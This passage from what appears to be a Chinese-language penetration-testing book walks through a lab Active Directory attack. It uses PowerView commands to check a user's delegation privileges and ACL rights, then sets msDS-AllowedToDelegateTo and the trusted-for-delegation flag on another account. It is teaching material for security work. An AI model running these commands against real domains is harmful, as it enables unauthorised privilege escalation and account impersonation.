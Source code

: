 ```
$policy = Get-DomainPolicy -Source DC
$policy.PrivilegeRights.SeEnableDelegationPrivilege
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -eq 'tywin.lannister'}
```

结果见以下截图：

![图 7.19 – tywin.lannister 用户具备执行攻击所需的所有权限](img/B18964_07_19.jpg)

图 7.19 – tywin.lannister 用户具备执行攻击所需的所有权限

现在，我们使用以下命令设置`renly.baratheon`用户账户的`msDS-AllowedToDelegateTo`属性和 userAccountControl 标志：

```
Set-DomainObject -Identity renly.baratheon -Set @{"msds-allowedtodelegateto"="http/kingslanding.sevenkingdoms.local"} -Verbose
Set-DomainObject -Identity renly.baratheon -Xor @{"useraccountcontrol"="16777216"} -Verbose
Get-DomainObject -Identity renly.baratheon | select msds-allowedtodelegateto, useraccountcontrol | fl
```

成功执行上述命令的结果可以在以下截图中看到：

![图 7.20 – 成功设置所需的用户属性](img/B18964_07_20.jpg)
